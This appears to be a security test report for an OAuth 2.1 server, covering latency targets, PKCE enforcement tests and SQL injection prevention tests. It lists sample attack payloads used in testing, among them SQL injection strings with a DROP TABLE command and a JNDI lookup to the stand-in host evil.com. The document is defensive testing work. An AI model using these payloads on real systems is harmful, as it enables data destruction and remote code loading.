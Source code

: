 **Performance Metrics**:
| Endpoint | Target | Expected |
|----------|--------|----------|
| Token | < 100ms avg | < 200ms P95 |
| Authorization | < 50ms avg | Fast response |
| Introspection | < 30ms avg | Very fast |
| Sustained Load | < 1% errors | No degradation |

### Security Testing ✅

#### 4. PKCE Security Tests
**File**: `/tests/security/test_pkce_security.py`
**Test Cases**: 5

- **PKCE Required for Public Clients**: Validates PKCE enforcement
- **PKCE Challenge Validation**: Tests challenge format requirements
- **PKCE Verifier Mismatch**: Wrong verifier rejection test
- **Authorization Code Interception Prevention**: Simulates attack scenario
- **PKCE Verifier Bounds**: Tests 43-128 character limits

**Security Validations**:
- ✅ PKCE properly prevents authorization code interception
- ✅ Code verifier length boundaries enforced (43-128 chars)
- ✅ Only S256 challenge method accepted (OAuth 2.1 compliance)
- ✅ Mismatched verifiers rejected

#### 5. SQL Injection Prevention Tests
**File**: `/tests/security/test_sql_injection.py`
**Test Cases**: 7

- **Authorization Endpoint SQL Injection**: 10 injection payloads tested
- **Token Endpoint SQL Injection**: Multiple grant types tested
- **Introspection Endpoint SQL Injection**: Token parameter testing
- **UserInfo Endpoint SQL Injection**: Bearer token injection
- **Revocation Endpoint SQL Injection**: Token revocation testing
- **Advanced Injection Attempts**: Command execution, time-based blind SQL
- **Error Information Leakage**: Checks for sensitive data in errors

**Injection Payloads Tested**:
```sql
' OR '1'='1
'; DROP TABLE oauth_clients; --
1' UNION SELECT * FROM users --
' OR pg_sleep(5) --
${jndi:ldap://evil.com/a}
```

**Security Results**:
- ✅ All SQL injection attempts properly handled
- ✅ No sensitive error information leaked
- ✅ Parameterized queries prevent injection
- ✅ Advanced attacks (command execution, LDAP) blocked
